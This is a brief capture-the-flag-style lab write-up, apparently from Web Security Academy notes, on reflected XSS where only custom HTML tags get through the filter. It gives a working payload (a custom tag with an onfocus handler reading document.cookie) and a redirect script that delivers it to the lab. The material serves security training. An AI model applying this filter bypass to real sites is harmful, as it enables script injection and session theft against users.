

# **Reflected XSS into HTML context with all tags blocked except custom ones**

For this one, the page injects the custom tags added to the search for some reason:



And when you add events to the custom tags, they work. So using this payload in the exploit server:

```
Payload: <xss id=x onfocus=alert(document.cookie) tabindex=1>

<script>
location = 'https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';
</script>
```

Will solve the lab
